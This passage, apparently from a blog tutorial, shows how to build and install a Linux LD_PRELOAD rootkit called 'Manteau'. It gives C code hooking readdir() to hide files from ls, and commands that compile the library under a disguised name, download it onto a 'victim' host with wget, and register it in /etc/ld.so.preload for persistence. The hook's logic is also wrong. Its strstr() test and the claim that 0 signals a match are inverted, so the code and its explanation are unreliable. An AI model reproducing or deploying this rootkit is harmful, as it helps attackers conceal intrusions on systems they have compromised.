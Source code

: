 The only member that is mandatory in the structure is the `d_name` which is the null-terminated filename of the entry. That seems pretty easy actually. We can actually key in on this fact, that `d_name` is mandatory, and compare its value for entries to a string, such as `rootkit.txt` and somehow manipulate the function to skip our entries. Let's actually do that! Here is our hook for `readdir()`:
```c
struct dirent *(*old_readdir)(DIR *dir);
struct dirent *readdir(DIR *dirp)
{
    old_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *dir;

    while (dir = old_readdir(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}
```

I got this hook from basically just following the walkthrough on this blog: https://ketansingh.net/overview-on-linux-userland-rootkits/

We can go through it piece by piece:
+ `struct dirent *(*old_readdir)(DIR *dir);` same thing as our hook for `fopen()`, we're declaring a function that will later be initialized to point towards the address of the real `readdir()`;
+ `struct dirent *readdir(DIR *dirp)` we are declaring a function which perfectly matches the definition of the legitimate `readdir()` function;
+ `old_readdir = dlsym(RTLD_NEXT, "readdir");` we are initializing the function we declared so that it points to the real `readdir()`;
+ `while (dir = old_readdir(dirp))` we are saying, while it is true that the legitimate `readdir()` is still iterating through directory entries and returning a value, do something;
+ `if(strstr(dir->d_name,FILENAME) == 0) break;` we are comparing `FILENAME`, which is a definiton, to the `d_name` member of the `dir` struct returned by our `old_readdir()` and if a match is found (that is, a `0` is returned), we are `breaking` on that entry and skipping over it;
+ finally, we `return dir` to complete the function's called purpose. 

With this setup, we can hide arbitrary files from `/bin/ls`. 

## Actually Using the Damn Rootkit
Let's actually use this thing. Let's pretend we're root on our victim machine, and it's time to install the malicious library. 

1. Let's set all the definitions specific for the victim host and compile the library. Let's give it a non-descriptive name, something that will blend in to the naked eye. (And let's put "man" in the file name because Manteau). Let's compile our C file with: `gcc  manteau.c -fPIC -shared -D_GNU_SOURCE -o libc.man.so.6 -ldl`
2. Let's `wget` that to the victim, in our case an i386 Ubuntu machine running SSH.
```
root@ubuntu:/home/manteau# wget http://192.168.1.218/libc.man.so.6
```
3. Let's move it to the correct library that other shared libaries reside, on our victim that's in `/lib/i386-linux-gnu/`
```
root@ubuntu:/home/manteau# mv libc.man.so.6 /lib/i386-linux-gnu/libc.man.so.6
```
4. Let's now put a reference to our malicious shared library in the `/etc/ld.so.preload` file.
```
root@ubuntu:/home/manteau# echo "/lib/i386-linux-gnu/libc.man.so.6" > /etc/ld.so.preload
```
5. Let's check that it took by using `ldd` on something like `/bin/ls` and see if our malicious library is the first shared library loaded into memory.
```
root@ubuntu:/home/manteau# ldd /bin/ls
	linux-gate.so.1 =>  (0xb7f06000)
```